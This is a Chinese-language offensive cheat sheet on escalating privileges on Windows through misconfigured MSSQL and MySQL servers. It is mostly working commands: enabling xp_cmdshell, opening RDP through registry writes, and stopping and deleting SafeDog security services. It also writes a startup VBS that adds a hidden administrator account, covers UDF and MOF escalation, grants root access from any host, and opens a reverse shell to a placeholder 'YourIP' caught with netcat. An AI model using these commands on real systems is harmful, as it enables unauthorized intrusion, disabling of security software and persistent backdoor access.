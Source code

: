 # Windows MSSQL 提权
## 使用 MSSQL 配置不当提权
（1）安装组件
安装cmd_shell组件
`EXEC sp_configure 'show advanced options', 1`
`GO`
`RECONFIGURE`
`GO `
`EXEC sp_configure 'xp_cmdshell', 1`
`GO`
`RECONFIGURE`
`GO`
删除cmd_shell组件
`EXEC sp_configure 'show advanced options', 1`
`GO`
`RECONFIGURE`
`GO`
`EXEC sp_configure 'xp_cmdshell', 0`
`GO`
`RECONFIGURE`
`GO`
（2）开启 3389
开启3389
`exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;--`
关闭3389
`exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',1;`
（3）创建用户
（4）权限提升
system权限的情况下：
`net stop "safedog guard center" /y`
`net stop "safedog update center" /y`
`net stop "safedogguardcenter" /y`
绕过安全狗：
删除安全狗服务：
`sc stop "SafeDogGuardCenter"`
`sc config "SafeDogGuardCenter" start=disabled`
`sc delete "Safedogguardcenter"`
`sc stop "SafeDogupdateCenter"`
`sc config "SafeDogUpdateCenter" start=disabled`
`sc delete "SafedogUpdatecenter"`
`sc stop "SafeDogCloudHeler"`
`sc config "SafeDogCloudHeler" start=disabled`
`sc delete "SafeDogCloudHeler"`



# Windows MYSQL 提权

## Windows mysql udf 提权
原理：通过 root 权限导出 udf. Dll 到系统目录下，可以通过 udf. Dll 调用执行 cmd
（1）查看网站源码里面数据库配置（inc, conn, config. Sql, common, data 等）
（2）查看数据库安装路径下的 user. Myd  (/data/mysql/)下载，本地替换
`mysqld --skip-grant-tables 跳过验证`
`mysql.exe -uroot    进入MySQL`
（3）暴力破解 mysql 密码破解 3306 端口入侵



## Windows mysql启动项提权 （不常用，容易被拦截）
（1）查看我们进入数据库中有些什么数据表
`mysql>show tables;`
默认的情况下，test 中没有任何表的存在。
（2）在 TEST 数据库下创建一个新的表；
`mysql>create table a (cmd text);`
好了，我们创建了一个新的表，表名为 a，表中只存放一个字段，字段名为 cmd，为 text 文本。
（3）在表中插入内容
`mysql>insert into a values ("set wshshell=createobject (""wscript.shell"")");`
`mysql>insert into a values ("a=wshshell.run (""cmd.exe /c net user 1 1 /add"",0)");`
`mysql>insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup Administrators 1 /add"",0)");`
**注意双引号和括号以及后面的“0”一定要输入！我们将用这三条命令来建立一个 VBS 的脚本程序！**
（4）好了，现在我们来看看表 a 中有些什么
`mysql>select * from a;`
我们将会看到表中有三行数据，就是我们刚刚输入的内容，确认你输入的内容无误后，我们来到下一步
（5）输出表为一个 VBS 的脚本文件
`mysql>select * from a into outfile "c://docume~1//administrator//「开始」菜单//程序//启动//a.vbs";`
（6）重启即可



## Windows mysql mof 提权
（1）上传 mof. Php，输入相关信息，执行命令，提权。
（2）上传文件x.mof，使用 select 命令导出入到正确位置
`select load_file('C:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'
（3）允许外部地址使用 root 用户连接的 sql 语句
`Grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;`



## Windows mysql 反链端口提权 
原理：让调出的 cmd 反向连接黑客，一般 waf 拦截进入的流量，不拦截出去的流量，所以可以使用[[ReverseShell|反弹链接]]过掉 waf
（1）利用 mysql 客户端工具连接 mysql 服务器，然后执行下面的操作。
执行命令
`mysql.exe -h 172.16.10.11 -uroot -p`
`Enter password:`
`mysql> \. c:\mysql.txt`
`mysql>select backshell("YourIP",2010);`
（2）本地监听你[[ReverseShell|反弹]]的端口
`nc.exe -vv -l -p 2010`
成功后，你将获得一个 system 权限的 cmdshell，其实这个也是利用的 UDF 提权。

